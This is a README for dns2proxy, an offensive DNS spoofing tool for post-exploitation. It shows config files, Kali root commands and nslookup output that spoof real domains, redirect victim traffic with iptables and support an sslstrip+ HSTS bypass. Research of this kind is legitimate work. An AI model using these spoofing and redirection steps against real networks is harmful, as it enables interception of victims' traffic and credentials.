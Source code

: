 # dns2proxyNew

Error-free version
Compatible with Python3
 
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>

 
## Installation  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.

    $ sudo chmod +x install.sh
    $ sudo ./install.sh
    (venv)$ python dns2proxy.py


## Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
    Ex: 
    .facebook.com 1.2.3.4 
    .fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
    Ex: 
    www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
    Ex. 
    mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
    Ex: 
    127.0.0.1 
    4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
    Ex: 
    23.66.163.36 
    195.12.226.131   

resolv.conf: DNS server to forward the queries.
    Ex:
    nameserver 8.8.8.8


### Feature 1 
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
      
// launch in another terminal dns2proxy.py  
      
    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.s21sec.com  
    Address: 1.1.1.1  
    Name:   www.s21sec.com  
    Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
    root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
    .domain.com 192.168.1.1  
      
    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   aaaa.domain.com  
    Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
### Feature 2  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
    Non spoofing imap.gmail.com  
    Non spoofing mail.s21sec.com  
    Non spoofing www.google.com  
    Non spoofing www.apple.com  
    Non spoofing ccgenerals.ms19.gamespy.com  
    Non spoofing master.gamespy.com  
    Non spoofing gpcm.gamespy.com  
    Non spoofing launch.gamespyarcade.com  
    Non spoofing peerchat.gamespy.com  
    Non spoofing gamestats.gamespy.com  
    Specific host spoofing www.s21sec.com with 1.1.1.1  
    Specific domain IP .domain.com with 192.168.1.1  
    binded to UDP port 53.  
    waiting requests.  
    Starting sniffing in (eth0 = 172.16.48.128)....  
  
< at other terminal >  
 
    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.microsoft.com  
    Address: 172.16.48.128  
    Name:   www.microsoft.com  
    Address: 172.16.48.230  
    Name:   www.microsoft.com  
    Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
### Feature 3
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   webaccounts.google.com  
    Address: 172.16.48.128  
    Name:   webaccounts.google.com  
    Address: 172.16.48.230  
    Name:   webaccounts.google.com  
    Address: 74.125.200.84  

Another example

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
    Server:         127.0.0.1                                                     www.yahoo.com  
    Address:        127.0.0.1#53  
      
    Name:   wwww.yahoo.com  
    Address: 172.16.48.128  
    Name:   wwww.yahoo.com  
    Address: 172.16.48.230  
    Name:   wwww.yahoo.com  
    Address: 68.142.243.179  
    Name:   wwww.yahoo.com  
    Address: 68.180.206.184  
    
    Edited by eayyil
    Owner: LeonardoNve
